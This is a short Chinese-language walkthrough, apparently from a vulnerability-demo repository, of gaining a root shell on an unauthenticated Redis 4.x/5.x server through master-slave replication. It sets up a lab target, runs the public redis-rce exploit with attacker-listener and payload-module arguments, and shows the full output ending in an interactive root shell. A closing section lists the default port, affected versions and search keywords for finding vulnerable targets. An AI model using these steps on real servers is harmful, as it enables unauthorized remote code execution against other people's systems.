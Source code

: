 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

靶机kali，ip地址192.168.1.16，安装redis服务命令。  

wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
tar xzf redis-5.0.0.tar.gz  
cd redis-5.0.0  
make  


编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


./redis-server /root/redis-5.0.0/redis.conf  

![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用



攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。



 git close https://github.com/Ridter/redis-rce  
 cd redis-rce  
 greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
 
 █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄     
 █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀    
 █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄      
 █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀     
   █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀      
 ▀                                     ▀                     

[*] Connecting to  192.168.1.16:6379...  
[*] Sending SLAVEOF command to server  
[+] Accepted connection from 192.168.1.16:6379  
[*] Setting filename  
[+] Accepted connection from 192.168.1.16:6379  
[*] Start listening on 192.168.1.107:21000  
[*] Tring to run payload  
[+] Accepted connection from 192.168.1.16:38875  
[*] Closing rogue server...  

[+] What do u want ? [i]nteractive shell or [r]everse shell: i  
[+] Interactive shell open , use "exit" to exit...  
$ whoami  
root  
$   

![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

参考链接 https://paper.seebug.org/975/  

![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)



